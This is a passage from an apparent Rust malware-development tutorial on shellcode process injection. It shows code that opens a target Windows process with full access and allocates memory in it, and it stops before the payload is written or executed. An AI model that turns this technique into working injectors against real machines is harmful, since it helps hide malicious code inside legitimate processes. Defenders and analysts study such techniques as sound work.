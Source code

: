 The **Inject** function takes three parameters: the PID of the target process, a pointer to the payload, and the payload length.

```rust
fn inject( pid: u32, payload_ptr: *const c_void, payload_len: usize){
```

The WinAPIs we are going to use are defined as **[unsafe](https://doc.rust-lang.org/book/ch19-01-unsafe-rust.html#calling-an-unsafe-function-or-method)** function, because Rust can’t guarantee the memory safety, so it’s our responsibility. In the image below we can see the **OpenProcess** implementation, it is declared as an **unsafe** function.

{{< image src="img/2023-10-27-rustware-part-1-shellcode-process-injection-development/img6.png" caption="Figure 6 - OpenProcess Implementation" wrapper="text-center">}}

In order to use an **[unsafe](https://doc.rust-lang.org/book/ch19-01-unsafe-rust.html#unsafe-rust)** function, we need to add an **unsafe** block; we are going to use this block for all the WinAPIs. Let’s use  **OpenProcess** to get a handle to the target process. It returns a [Result](https://doc.rust-lang.org/std/result/enum.Result.html) enum containing the Handle to the opened process, or the error if it fails. Using the **match** construct we can use the variants **Ok()** and **Err()** to define what to do if the function succeeds or fails.

```rust
fn inject( pid: u32, payload_ptr: *const c_void, payload_len: usize){
    unsafe{
        let result_openprocess = OpenProcess(PROCESS_ALL_ACCESS,false,pid);

        match result_openprocess{
            Ok(handle_process) => {
                println!("OpenProcess succeeds")
            }

            Err(error) => {
                println!("OpenProcess Error: {}",error)
            }
        }
    }
}
```

If the function succeeds the program performs **VirtualAllocEx** to allocate a region of memory that is readable and writable into a remote target process and print the allocated memory address, otherwise it prints an error message. We don’t specify the **lpaddress** because we want the WinAPI to determinate where to allocate the region of memory

```rust
Ok(handle_process) => {
    let remotememory_ptr: *mut c_void = VirtualAllocEx(handle_process,None,payload_len,MEM_COMMIT,PAGE_READWRITE);    

    if !remotememory_ptr.is_null(){
        println!("Allocated Memory Address: {:p}",remotememory_ptr);
    }   
    else{
         println!("VirtualAllocEx Error")
    }

```             
